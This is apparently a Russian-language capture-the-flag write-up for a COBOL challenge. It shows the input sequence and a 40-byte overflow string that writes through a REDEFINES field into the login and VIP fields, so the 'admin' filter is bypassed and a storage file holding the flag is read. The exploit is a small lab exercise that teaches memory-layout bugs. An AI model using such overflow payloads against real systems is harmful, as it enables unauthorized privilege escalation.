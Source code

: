 ```sh
$   2
$   test
$   test
$   4
$   N
$   N
$   N
$   aaaaaaaaaaaaaaaaaaaaaaaaaaaaaab00admin
$   N
$   9
$   3               # для проверки
$   5
```

В исходниках видим следующую функцию проверки:
```cobol
OPEN-STORAGE.
  DISPLAY "Trying to open the storage...".
  IF LOGIN = "admin" AND VIP = 1
    CALL "system" USING "cat /root/storage/storage.txt"
  ELSE
    DISPLAY "You are not allowed!"
  END-IF.
```

То есть, наша задача - залогиниться под пользователем __admin__ с полем VIP==1

Для VIP используем скрытую кнопку `88 SECRET VALUE "9".`
После пытаемся поменять имя пользователя.
Залогиниться мы можем только под логином test, но существует возможность поменять его в функции "4. Change info."

При этом, залогиниться под __admin__ мы не можем:
```cobol
IF TMPLOGIN = "admin"
	    DISPLAY "No no no. Go away."
		MOVE SPACE to TMPLOGIN
```

Изучаем структуру, в которой хранится имя пользователя:
```cobol
WORKING-STORAGE SECTION.
  01 SUBPRG.
	02 TMPABOUT PIC X(30).
    02 TMPCHOICE PIC X(1).
	02 TMPAGE PIC 99.
	02 TMPLOGIN PIC X(10).
	02 TMPPASSW PIC X(10).
  01 TMPABOUT2 REDEFINES SUBPRG PIC X(40).
```

Наибольшее внимание представляет собой переменная TMPABOUT2, которую мы можем контролировать:
```cobol
DISPLAY "Are you sure? [Y/N]: " NO ADVANCING
	  ACCEPT TMPCHOICE
	  IF TMPCHOICE = "N"
	    DISPLAY "Information about you? "
	    ACCEPT TMPABOUT2
```

Понимаем, что с помощью этой переменной можно переполнить первые 40 значений структуры __SUBPRG__: `aaaaaaaaaaaaaaaaaaaaaaaaaaaaaab00admin`

Получив имя пользователя admin и VIP=1, можем успешно выполнить функцию "5. Open the storage." и получить флаг.

